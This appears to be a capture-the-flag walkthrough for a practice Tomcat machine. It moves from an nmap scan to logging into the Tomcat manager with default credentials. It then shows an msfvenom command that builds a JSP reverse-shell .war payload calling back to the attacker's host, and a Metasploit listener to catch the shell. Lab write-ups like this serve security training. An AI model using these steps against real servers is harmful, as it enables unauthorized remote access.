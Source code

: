 #Enumeration

The first step is to run an nmap scan to gewt an idea of what services are running on the machine.

```
nmap -sV -sC -Pn --reason --open 10.10.10.95
Starting Nmap 7.70 ( https://nmap.org )
Stats: 0:00:02 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 4.05% done; ETC: 12:48 (0:00:47 remaining)
Nmap scan report for 10.10.10.95
Host is up, received user-set (0.046s latency).
Not shown: 999 filtered ports
Reason: 999 no-responses
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE REASON  VERSION
8080/tcp open  http    syn-ack Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
```

There is only one port open in the top 100, port 8080. The nmap script results (from the -sC flag) reveal that this is running Apache Tomcat 7.0.88.

A bit of internet research will reveal there is a web interface under /manager/html. Further internet research will uncover the default credentials for Apache Tomcat.

We now have access to the web interface. This administative interface has file upload functionality which we can abuse to gain a shell. Under the deploy section, we have the ability to upload a .war file. A suitable payload can be generated using msfvenom:

`msfvenom -p java/jsp_shell_reverse_tcp LHOST=[Your IP] LPORT=4444 -f war > ~/Desktop/reverse.war`

We need to create a listener using Metasploit to catch the reverse shell. Within the Metasplot Framework set the following options:

```
use exploit/multi/handler
set payload java/jsp_shell_reverse_tcp
set LHOST [Your IP]
set LPORT 4444 (if it's not already set)
exploit
```

Now upload and deploy the .war file and you will get a shell. Both of the flags (user.txt and root.txt) will be in the Desktop folder so no privesc is required!